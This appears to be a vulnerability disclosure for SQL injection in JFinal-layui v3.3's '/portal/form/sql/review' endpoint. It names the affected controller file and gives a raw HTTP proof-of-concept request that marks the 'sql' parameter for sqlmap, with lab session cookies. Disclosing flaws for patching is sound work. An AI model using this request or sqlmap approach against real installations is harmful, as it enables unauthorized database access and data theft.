






BUG_Author

Longlong Gong

# Project

Address: [JFinal-layui](https://gitee.com/QinHaiSenLin/Jfinal-layui)

## SQL inject

###  `/portal/form/sql/review` SQL inject

[Affected version]

v3.3


[Affected Component]

/portal/form/sql/review


[Software]

https://gitee.com/QinHaiSenLin/Jfinal-layui/repository/archive/JFinal-layui-pro-v3.3


[Description]

JFinal-layui system v3.3 has an SQL injection vulnerability in the SQL parameters of the '/portal/form/SQL/review' interface. Hackers can exploit this vulnerability to obtain sensitive server information

POC

```
GET /portal/form/sql/review?sql=*&configName= HTTP/1.1
Host: 192.168.1.184
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.184/portal/form/sql/add?treeId=&treeName=
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: satoken=01cdb2b4-c114-4d1c-8930-ddf92e97d658; JSESSIONID=49FRXXt0l764c5H3QDVIBooQtei0-hVkK_0KIaNg; jfinalLayuiId=8c335d61399443e180882e3094497b39
Connection: keep-alive


```

Website backend management ->System management ->Custom SQL ->Add and preview

From the following, it can be seen that SQL parameters are not precompiled

Jfinal-layui-JFinal-layui-pro-v3.3\src\main\java\com\qinhailin\portal\form\ctrl\SqlController.java









Run directly through sqlmap




